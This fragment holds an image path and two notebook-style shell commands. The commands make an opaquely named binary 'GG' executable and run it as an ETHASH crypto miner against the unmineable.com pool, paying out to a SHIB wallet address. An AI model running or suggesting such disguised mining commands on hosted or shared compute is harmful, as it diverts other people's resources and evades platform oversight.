 ! chmod +rwx GG
! ./GG --algo ETHASH --pool ethash.unmineable.com:3333 --user SHIB:0xe3ed79913abb464e0ca11c278cec2a501bd4da7d.GPn3#fg38-pfgk --watchdog exit

